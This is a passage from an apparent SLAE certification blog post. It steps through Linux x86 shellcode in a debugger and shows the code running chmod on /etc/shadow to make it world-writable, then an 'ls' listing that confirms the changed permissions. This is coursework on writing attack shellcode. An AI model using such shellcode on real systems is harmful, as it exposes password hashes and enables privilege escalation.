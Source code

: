 Fairly simple. The value that's still in EBX will be used as the exit code, no need to zero it out since it doesn't really matter. 

```
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x40204a ("/etc/shadow")
ECX: 0x1b6 
EDX: 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff368 --> 0x0 
EIP: 0x402062 --> 0x80cd
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40205d <code+29>:	int    0x80
   0x40205f <code+31>:	push   0x1
   0x402061 <code+33>:	pop    eax
=> 0x402062 <code+34>:	int    0x80
```

If we finish execution we can verify our shadow file with the updated permissions.

```
root@kali:~/SLAE# ls -al /etc/shadow
-rw-rw-rw- 1 root shadow 1573 Mar 19 14:15 /etc/shadow
```

And that's it! Very short and simple. 

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>